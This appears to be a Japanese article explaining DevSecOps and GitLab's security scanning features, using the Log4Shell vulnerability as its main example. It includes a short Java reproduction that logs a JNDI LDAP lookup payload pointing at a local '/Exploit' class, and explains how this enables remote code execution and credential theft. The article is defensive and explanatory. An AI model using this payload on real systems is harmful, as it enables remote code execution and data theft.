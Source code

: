 <!-- omit in toc -->
# GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明します。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力しています。

## 目次

- [概要](#概要)
- [目次](#目次)
- [DevSecOpsが必要とされる経緯](#devsecopsが必要とされる経緯)
  - [OSSの深刻な脆弱性の実例](#ossの深刻な脆弱性の実例)
  - [OSSの多用](#ossの多用)
  - [DevSecOpsの誕生](#devsecopsの誕生)
- [GitLabでのDevSecOps](#gitlabでのdevsecops)
- [参考リンク](#参考リンク)

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分でした。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがあります。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められています。

![Alt text](img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見されました。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなりました。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用します。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できるという問題です。

脆弱性は以下のシンプルなコードで再現できます。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに「${jndi:ldap://~}」という文字列が埋め込むことで攻撃が成立します。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できます。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になります。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できます。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となります。

### OSSの多用

問題となるのは、上記の脆弱性が潜在的に全てのライブラリに存在する可能性があることです。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加します。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難です。実際のところ、日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの労力が必要です。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり!!!
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれました。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされています。

![Alt text](img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがあります。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供しています。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面があります。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になります。

![Alt text](img/gitlab_cicd_devsecops.png)
![Alt text](img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供します。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsです。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
